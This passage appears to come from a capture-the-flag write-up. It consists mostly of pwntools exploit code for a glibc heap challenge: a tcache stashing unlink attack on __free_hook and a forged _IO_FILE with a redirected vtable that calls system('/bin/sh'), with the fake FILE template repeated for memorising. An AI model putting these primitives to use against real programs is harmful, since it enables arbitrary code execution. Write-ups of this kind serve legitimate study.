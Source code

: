 ```bash
Change(2)
Edit(8, 2*p64(heap_base+0x13e80) + '\n') # recover

#----- tcache_stashing_unlink_attack and FILE attack
Change(1)
payload = 'A'*0x50 + p64(heap_base+0x12280) + p64(free_hook-0x20)
Edit(8, payload + '\n')

Change(3)
payload = '\x00'*0x18 + p64(heap_base+0x147c0)
payload = payload.ljust(0x158, '\x00')
Add(0x440, payload) # C3 change fake FILE _chain
Add(0x90, 'C'*0x28) # C4 triger tcache_stashing_unlink_attack, put the chunk of __free_hook into tcache

IO_str_vtable = libc_base + 0x1ED560
system_addr = libc_base + libc.sym['system']
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
sa('Gift:', payload)


Menu(5)
sla('user:\n', '')

irt()
```

这里的 fake IO 构造也是个重点，偏移模版可以记一记

```bash
fake_IO_FILE = 2*p64(0)
fake_IO_FILE += p64(1)                    #change _IO_write_base = 1
fake_IO_FILE += p64(0xffffffffffff)        #change _IO_write_ptr = 0xffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(heap_base+0x148a0)                #v4
fake_IO_FILE += p64(heap_base+0x148b8)                #v5
fake_IO_FILE = fake_IO_FILE.ljust(0xb0, '\x00')
fake_IO_FILE += p64(0)                    #change _mode = 0
fake_IO_FILE = fake_IO_FILE.ljust(0xc8, '\x00')
fake_IO_FILE += p64(IO_str_vtable)        #change vtable
payload = fake_IO_FILE + '/bin/sh\x00' + 2*p64(system_addr)
```
